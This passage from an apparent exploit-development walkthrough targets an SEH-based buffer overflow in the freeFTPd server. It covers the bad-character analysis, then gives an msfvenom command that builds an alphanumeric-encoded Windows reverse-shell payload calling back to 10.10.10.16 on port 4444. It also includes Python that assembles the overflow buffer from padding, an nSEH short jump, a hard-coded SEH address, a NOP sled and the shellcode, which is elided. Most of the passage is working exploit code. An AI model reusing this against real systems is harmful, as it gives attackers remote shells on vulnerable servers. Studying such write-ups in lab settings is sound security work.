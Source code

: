 Let's restart everything, and run the skeleton exploit.

![screenshot](/assets/img/freeftpd/badchars.PNG)

Whoa boy...this got painful. Basically you can just tell by eye-balling that there is a lot of stuff mixed up, messed around with, and just outright FUBARed. TL;DR the only characters usable need to be ASCII or Unicode-friendly, which...thinking about the nature of the bug originating from WideCharToMultiByte, it makes sense that the buffer would be manipulated in this manner. Thankfully we have plenty of space to use for shellcode, and the stack is aligned so we don't have to use any crazy tricks. We just need to make sure the shellcode is encoded to be alphanumeric in some form or another. Referencing the output above, there are 4 characters we need to make extra sure are not in the shellcode: "\x00", "\x0a", "\x0d", and "\x20". These correlate to null-byte, new line, carriage return, and space. 

## Achieving The Shell

Let's generate a payload, and see what happens.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.16 LPORT=4444 -b '\x00\x0a\x0d\x20' -e x86/alpha_mixed
```

Add it to the exploit, and pad the beginning of it with a sled of NOP instructions:

```python
shellcode = ("\x89\xe7\xda\xd2 SNIP SNIP SNIP") 

SEH = pack("<I", 0x7ffc0519)       # SEH should read 1905fc7f
nSEH = "\xCC\xCC\xEB\x04"          # The next SEH should have an address of 04EBCCCC
nopsled = "\x90"*8

buffer = "A"*982
buffer += nSEH
buffer += SEH
buffer += nopsled
buffer += shellcode
buffer += "D"*(2000-982-len(SEH)-len(nSEH)-len(nopsled)-len(shellcode))  
```

Restarting and rerunning the skeleton exploit again, we land in the NOP instructions, and we can see the beginning part of our shellcode.
